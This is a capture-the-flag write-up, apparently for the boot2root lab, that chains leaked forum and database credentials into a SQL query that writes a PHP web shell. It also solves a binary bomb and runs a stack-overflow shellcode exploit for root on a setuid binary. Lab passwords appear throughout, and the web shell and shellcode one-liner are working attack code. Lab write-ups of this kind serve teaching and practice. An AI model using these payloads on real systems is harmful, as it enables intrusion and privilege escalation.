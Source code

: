 # Laurie entrypoint starting from /forum

Since we have access to /forum we can start gathering info
Some user are:
- admin
- lmezard
- zaz
- thor
- wandre
- qudevide

In a post we find a login and a password that was misstyped by lmezard
The password is `!q\]Ej?*5K5cy*AJ`

With this we can connect to the forum as lmezard, and this let us this her email on her profile
lmezard email is `laurie@borntosec.net`
Her password is the same than her forum password
Now we can connect as laurie on /webmail

She has 2 mail, one containing db root access we can use on /phpmyadmin
`user: root
 pass: Fg'kKXBj87E:aJ$`
Interesting to note that the sender email is `qudevide@mail.borntosec.net`
and laurie sent the same email to `ft_root@mail.borntosec.net`

Now we have access to the database which gives us some software additional info:
- Server: Localhost via UNIX socket
- Server version: 5.5.44-0ubuntu0.12.04.1
- Protocol version: 10
- User: root@localhost
- MySQL charset: UTF-8 Unicode (utf8)

## Reverse shell
From native SQL QUERY we can create file
The root dir of mysql on the system seems to be /var/lib/mysql/
Except here it looks like we cant create a file anywhere on the system
After a lot of tries everywhere, we discovered we can write inside /forum/templates_c/
To do the reverse shell we can do it in php with the shell_exec command

SELECT '<form method="get"><label><input type="text" name="cmd" value=""></label><button>Exec</button></form><?php if(isset($_GET["cmd"])){ $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; } ?>' INTO OUTFILE "/var/www/forum/templates_c/sh.php"

Then we can execute command logged in as www-var, wich is the apache2 users
Looking around the system, we find a password file in /home/LOOKATME/password
The credentials inside are : `lmezard:G!@M6f4Eatau{sF"`

They are ftp credentials, when connecting to the ftp server there is pcap file,
We have to extract the archive with tar and sort the file inside
We can automate them in a script and recompile the C file or just
`grep -R getme ft_fun -A 3`
`grep -R return ft_fun -A 3` to sort them manually, there is only 12 char we need

getme1() -> file 5/6 = I
getme2() -> file 37/38 = h
getme3() -> file 56/57 = e
getme4() -> file 115/116 = a
getme5() -> file 368/369 = r
getme6() -> file 521/522 = t
getme7() -> file 736/737 = p
getme8() ->  'w'
getme9() ->  'n'
getme10() -> 'a'
getme11() -> 'g'
getme12() -> 'e'

"ft_fun/BJPCP.pcap- printf("%c",getmeX());"
"ft_fun/BJPCP.pcap- printf("Now SHA-256 it and submit");"

final password = Iheartpwnage
SHA-256 version = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Now we're logged in as laurie, we see a 'bomb' software that is a 32bit binary
We can reverse it and solve the 6 steps then concatenate the result and we'll have the password for the thor acc

## The bomb
When looking at the reversed code we see some strange stuff like the secret phase that we can activate on stage 4 by adding 'austinpowers'
But it doesnt seem to do anything meaningful, likewise there is some intriguing function like send_mail but it doesnt look activated at all for now
Back to solving each regular step of the bomb ->

1/ Public speaking is very easy.
2/ 1 2 6 24 120 720
3/ 5 t 458
4/ 9
5/ opekma
6/ 4 2 6 3 1 5

Quick notes on step 3:
Solution is 5 t 458 but there can be other
Like 1b2149

Quick notes on step 4:
The rank for which fibonacci = 55
Its 9

Quick notes on step 5:
Solution is opekma but there can be other
Like opekmq

There is probably 2 way to do this challenge, either crack the logic of the mask which we didnt
Or send the whole alphabet to create a table to find the match to 'giants'
abcdef: srveaw
ghijkl: hobpnu
mnopqr: tfgisr
stuvwx: veawho
yz: bp

Quick notes on step 6:
read6 func so we understand the input has 6 char
The first while check that all input are number < 7
Second and third while sets up the linked list according to some rule we dont need to understand
Fourth while and last part of the code is just a simple step through the linked list
And it checks that each node value is lesser than the previous one
*if (current node < next node)*
   *explode*
*current node = next node*
The answer is `4 2 6 3 1 5`
We can verify this by just sending 123456 to check node value right before the last step in gdb

The final password for thor is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Turtle

We have a series of instructions, when visualised with a python script (check script repo)
We get a stylised "SLASH"
When we md5 it we get the password for zaz user: `646da671ca01bb5d84dbb5fb2238dc8e`

## Overflow binary

In zaz repo there is a binary that is vulnerable to a stack overflow, through a call to strcpy
The binary doesnt have the nx protection and it isnt enabled via kernel neither
So we can inject a shellcode to exploit the vulnerable program
Quick file info checking with `ls -l ./exploit_me` `file ./exploit_me`
It is a setuid binary from root, so if we manage to spawn a shell properly it will be a root process

The binary take one argument, that's where we place our shellcode. We try to find the address of
strcpy dest (approximately 0xbffff660) to replace the main return address. We add a nop slide before
the shellcode, so we have more odds to get to it:

./exploit_me $(python -c "print '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x60\xf6\xff\xbf' * 21")

`whoami/id` -> root/0
Hooray!!
